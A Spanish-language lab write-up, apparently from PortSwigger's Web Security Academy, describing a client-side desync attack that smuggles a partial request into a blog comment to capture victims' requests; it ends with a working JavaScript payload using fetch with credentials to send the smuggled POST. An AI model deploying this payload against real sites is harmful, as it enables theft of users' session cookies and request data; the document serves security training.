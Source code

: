 En esta clase localizamos un gadget útil dentro de la aplicación: el sistema de comentarios en los posts. Utilizamos el vector de desincronización previamente identificado para inyectar una petición parcial dentro del cuerpo de un comentario.

Al recargar el post, comprobamos que la petición ha sido reflejada parcialmente en el contenido visible, lo que demuestra que podemos capturar y almacenar partes de peticiones arbitrarias que luego serán accesibles públicamente.

Solucion
aqui mandamos una tipica consulta pero vemos que no da resultado como seria en una RS (Request Smuggling)
la diferencia en este payload es que si vemos en la parte de arriba podemos ver que le metimos 100 en CL pero abajo no se ve reflejado
![Pasted_image_20250812205026.png](Imagenes/Pasted_image_20250812205026.png)
asi que para que se puede ejecutar una consulta se deberia aplicar en diferentes sockets asi que en esta caso vamos a intecerpar el apartado /en que era el redirect
![Pasted_image_20250812205255.png](Imagenes/Pasted_image_20250812205255.png)
y como sabemos que estamos en un CSD pues normalmente si nosotro le dabamos send en el Attacker Request esperamos un error 400 pero aqui no se refleja
![Pasted_image_20250812205517.png](Imagenes/Pasted_image_20250812205517.png)
asi que nosotros necesitamos hacer una coneccion TCP para que se puede ejecutar el payload para ello vamos a crear un grupo en el BS y lo configuramos a send group
![Pasted_image_20250812205721.png](Imagenes/Pasted_image_20250812205721.png)
Cuando le damos a send aqui si podemos ver el error
![Pasted_image_20250812205817.png](Imagenes/Pasted_image_20250812205817.png)
entonces para complementar el ataque vamos a interceptar un post y vamos a configurarlo en el BS
![Pasted_image_20250812210134.png](Imagenes/Pasted_image_20250812210134.png)
lo configuramos tal que quede asi
![Pasted_image_20250812210301.png](Imagenes/Pasted_image_20250812210301.png)
Entonces todo esto no lo podemos copiar y pasarlo al attacker
![Pasted_image_20250812210545.png](Imagenes/Pasted_image_20250812210545.png)
ahora vamos a configurarlo
1.- (el comment lo pasamos hasta el final)
2.- (configurar la longitud real para no tener problemas)
![Pasted_image_20250812210757.png](Imagenes/Pasted_image_20250812210757.png)
tal que quedaria asi
![Pasted_image_20250812211038.png](Imagenes/Pasted_image_20250812211038.png)
donde lo vemos reflejado si nos vamos a la pagina donde esta el post lo veremos reflejado
![Pasted_image_20250812211123.png](Imagenes/Pasted_image_20250812211123.png)
pero como podemos hacer para que la victima no vea este tipo de post donde muestre la infomacion para eso nos vamos a montar un script en JS donde me automatize esto

payload (
<script>
    smuggledRequest = [
      "POST /en/post/comment HTTP/1.1",
      "Host: 0a2700d203ea680480563a4e0009009d.h1-web-security-academy.net",
      "Cookie: session=10C0ZiNzSfrPlheSkA0EmCPoX1tgGb9H",
      "Content-Type: application/x-www-form-urlencoded",
      "Content-Length: 800",
      "",
"csrf=AYsRFi6GRECmO9Nfp6MdsDsoe4ew7FRQ&postId=6&name=test&email=test@test.com&website=https://callate.com&comment=test"
    ].join("\r\n")

    fetch("http://0a2700d203ea680480563a4e0009009d.h1-web-security-academy.net", {
      method: "POST",
      body: smuggledRequest,
      credentials: 'include',
      mode: "no-cors"
    });
</script>
)